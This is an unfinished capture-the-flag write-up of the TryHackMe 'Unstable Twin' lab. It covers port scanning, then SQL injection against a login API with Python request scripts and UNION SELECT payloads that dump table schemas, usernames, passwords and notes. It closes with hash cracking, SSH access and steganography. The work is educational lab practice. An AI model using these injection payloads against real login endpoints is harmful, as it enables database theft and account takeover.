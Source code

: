 ***STILL N THE WORKS!***

Room: [Unstable Twin](https://tryhackme.com/room/unstabletwin)

Difficulty: Medium

Overview:



-------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we will start off our target enumeration by doing "Nmap" scan:

nmap -sV -sC -A -p- 10.10.121.127 -oN nmap.txt -T4

10.10.121.127 - room ip address

![nmap](https://user-images.githubusercontent.com/76821053/119569292-74feab80-bda6-11eb-94d8-abcdc12f2fa0.png)

There are two ports open:

22    →  OpenSSH 8.0

53    →  http server nginx 1.14.1

Lets check for hidden directories with a "Gobuster" scan:

![gobuster](https://user-images.githubusercontent.com/76821053/119570948-a8dad080-bda8-11eb-9959-bbf3511f6684.png)

The website doesn't have anything..

![emptyweb](https://user-images.githubusercontent.com/76821053/119571098-d9bb0580-bda8-11eb-8dfe-9c5d55e7122c.png)

It is empty, besides the /info directory i found with gobuster:

![webinfo](https://user-images.githubusercontent.com/76821053/119571268-0d962b00-bda9-11eb-9135-8e63697dd282.png)

Using "curl" we will try to get more information from the http headers:



Found the build version number for Vincent server:

![curlxget](https://user-images.githubusercontent.com/76821053/119571524-5a7a0180-bda9-11eb-8536-6795514063ec.png)

Since there was a json file in the directory i did a GET request with option -H to accept application/json:

![jsonfilecurl](https://user-images.githubusercontent.com/76821053/120120298-3432d800-c194-11eb-9f09-3058d585b789.png)

Found a new build number and a new server name.

Now the room hinted that the server is vulnerable to sql injection, i need to find a way point to exploit it.

The server talks about “login API” so i try to see if there is anykind of vulnerability there:

 
 
 Know i know that i can reach /api/login and that if i ran the command 2 times it gives me different ouputs. Meaning that there is 2 servers probably and they read from diferent builds 1.3.4-dev and 1.3.6-final.

To start testing for vulnerabilities i wrote a simple python script:

Payloadallthethings:



I started editing the script doing:

1' UNION SELECT 1--+ '"
1' UNION SELECT 1,2--+ '"
1' UNION SELECT 1,2,3--+ '"
1' UNION SELECT 1,2,3,4--+ '"

till i got some kind of response from the server.. even dough the server was not ouputing errors and i found something.


import requests

payload = "1' UNION SELECT 1,2--+ '"
url = ' http://unstabletwin.thm/api/login'

data = {"username": payload , "password": 12345}
r = requests.post(url, data)
print(r.text)



I ran the script and got a call back:



Again i had to run the script twice, because there is 2 servers.

So i found that the server has 2 tables. Now i need to know what is their names.

From payloadallthethings sqlite injection:



To find version of mysql:



I need to modify 



To display the names of the tables i used the Integer/string based - Extract table name from payloadall..

import requests

payload = ["1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '"]
url = ' http://unstabletwin.thm/api/login'

data = {"username": payload , "password": 12345}

for i in payload:
        r = requests.post(url, data)
        print(r.text)
        r = requests.post(url, data)
        print(r.text)
        
        
When i combine the new string injection i needed to had number 1, like so:

original: 

SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

altered separated by a “,” :

SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

merged strings like so:

1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '


I also created a for loop to make the request two times, so in don't have to rerun the script . 
 
 



Now to read the contents of the tables i will again modify the script and to be able to read the columns:



I modified the string like so:

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'--+ '

Added the 1, and substitute the ‘table_name’ for the users which was the 1 table name






With this information i can now reach its contents.

To list users and passwords:

UNION SELECT username, password FROM users

then merged in the script:

1' UNION SELECT username, password FROM users--+








Now the same process to read the contents of "notes":

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'--+





To extract information:

string:

SELECT notes FROM notes

merged:

1' UNION SELECT 1, notes FROM notes--+





Found a password:

eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4

I used hash-identifier:



I used john the ripper to decrypt the hash:



i could also use crackstation.net to do this:



Password: experiment

Now that i have a password i will use ssh to connect to the target machine.

I assume that the user that has this password is mary_ann, because when i was enumerating the server mary_ann didn't had a colour but instead a ..continue..



I ran linpeas, did manual enumeration and only found a clue:



the content of server_notes.txt:



The api must have more information hidden so i used curl to try and download the images hinted on the message:

curl -v http://unstabletwin.thm/get_image?name=vincent --output vincent.jpg 












I did this command for every user and downloaded all the files in .jpg format.

example images:



Since they were all images i used steghide to see if there was any hidden content and i was right:



I read the contents of each extracted files:



There was a tip about arranging the children by the colours of the rainbow.



So i merged a big string from contents of each extracted file in rainbow colour order from red to green:

1DVsdb2uEE0k5HK4GAIZPS0Mby2jomUKLjvQ4OSwjKLNAAeCdl2J8BCRuXVXeVYvs6J6HKpZWPG8pfeHoNG1

I tried many different decoders till i find the right one at https://gchq.github.io/CyberChef/:



The string was base62.
